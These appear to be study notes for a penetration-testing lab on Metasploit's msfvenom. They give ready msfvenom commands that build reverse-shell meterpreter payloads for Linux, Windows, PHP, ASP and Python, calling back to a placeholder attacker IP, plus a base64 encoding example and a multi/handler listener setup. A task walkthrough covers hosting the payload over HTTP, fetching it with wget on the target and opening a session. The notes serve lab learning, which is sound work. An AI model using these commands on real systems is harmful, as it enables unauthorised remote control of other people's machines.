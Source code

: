 ## msfconsole: To generate the payloads
- MsfVenom - a Metasploit standalone payload generator.
- Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.
- Msfvenom will allow you to access all payloads available in the Metasploit framework. 
- Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).
- **msfvenom --list** formats command can be used to list supported output formats.

## Encoder: (can be done by msfvenom)
- eg: msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x -f raw -e php/base64
- with the -e parameter. The PHP version of Meterpreter was encoded in Base64

## Handlers: (Listener)
- Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.
- use **exploit/multi/handler** to receive the incoming connection.
- MSFvenom will require a payload, the local machine IP address, and the local port to which the payload will connect.

## Other Payloads:
- Linux Executable and Linkable Format (elf) (Change Permission chmod +x shell.elf &  run this file by typing ./shell.elf)
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
- Windows
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
- PHP (Remove php comments to make file executable)
> msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
- ASP
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
- Python
> msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

### Note: All of the examples above are reverse payloads. This means we need to have the exploit/multi/handler module listening on attacking/local machine to work as a handler, need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same we have used when creating the msfvenom payload.

## Task1:
- Do ssh to Target VM > ssh username@targetVM_IP
- Create Payload on Local VM > msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
- Transfer the payload to Target VM > 
- - a. First Create a server on Local VM > python3 -m http.server 9000 (change permission of file eg. chmod 777 file_name)
- - b. use on Target VM terminal or in ssh session wget http://LocalVM_IP/file_name.format
- Get a meterpreter session on the target machine > 
- - a. Start the Metasploit handler: use exploit/multi/handler
- - b. set payloads, lhost, lport (check show option)
- - c. run > meterpreter session must have started after executing the "transfered payload" on target VM
 
